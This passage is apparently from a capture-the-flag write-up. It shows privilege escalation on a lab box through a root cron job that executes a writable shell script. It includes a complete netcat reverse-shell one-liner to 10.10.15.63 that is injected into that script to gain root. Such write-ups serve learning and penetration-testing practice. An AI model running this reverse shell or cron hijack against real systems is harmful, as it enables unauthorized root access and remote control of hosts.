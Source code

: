 Boom!

***

# Privilege escalation

Following my usual information gathering steps I find a running vulnerable cronjob!

```console
$ cat /etc/crontab

# /etc/crontab: system-wide crontab
# Unlike any other crontab you do not have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* * * * *	root	/var/www/cronjobs/clearlogs <---- THIS ONE HERE
```

Cron is calling a clearlogs script at `/var/www/cronjobs/clearlogs` with root privileges. Content of clearlogs:

```console
$ cat /var/www/cronjobs/clearlogs

#!/usr/bin/php
<?php
$file = '/var/www/admin/logs/access.log';
file_put_contents($file, '');
exec('/var/www/cmd/logcleared.sh');
?>
```
Clearlogs script clears access.log and **executes** `/var/www/cmd/logcleared.sh` which we have write access to! (OR if the file doesn't exist, create it and chmod 777 it).  Because we can write to the file, we can control what is written in it. Long story short, we can easily control what will be executed as root each time the cron job runs. I just made another reverse shell which connected to me  -  `echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.63 5555 >/tmp/f" > /var/www/cmd/logcleared.sh`

> Note: Make sure both netcat connections are connected via a different port, using the same one won’t work.
